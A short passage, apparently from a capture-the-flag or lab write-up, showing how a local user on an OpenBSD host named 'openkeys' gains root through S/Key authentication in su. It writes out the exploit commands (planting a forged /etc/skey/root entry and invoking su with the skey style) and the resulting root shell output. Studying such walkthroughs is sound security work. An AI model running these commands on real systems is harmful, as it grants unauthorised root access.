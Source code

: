 Followed the same steps given in the POC, it will ask for password use the same in POC:

```bash
openkeys$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root
openkeys$ chmod 0600 /etc/skey/root
openkeys$ env -i TERM=vt220 su -l -a skey
otp-md5 99 obsd91335
S/Key Password:
openkeys# id                                                                                                                            
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
openkeys# whoami
root
```

We own the box!